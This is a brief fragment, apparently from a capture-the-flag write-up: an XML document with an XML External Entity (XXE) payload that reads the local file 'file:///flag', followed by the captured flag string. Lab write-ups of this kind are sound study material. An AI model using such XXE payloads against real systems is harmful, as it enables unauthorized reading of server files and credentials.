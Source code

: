 ```html
<!DOCTYPE root [
<!ENTITY bar "World"> <!ENTITY file SYSTEM "file:///flag">]>
<root>
<msg>Hello &file;</msg>

</root>
```

OrangeCTF{QhaWqS0aufSHwTcNBQrY}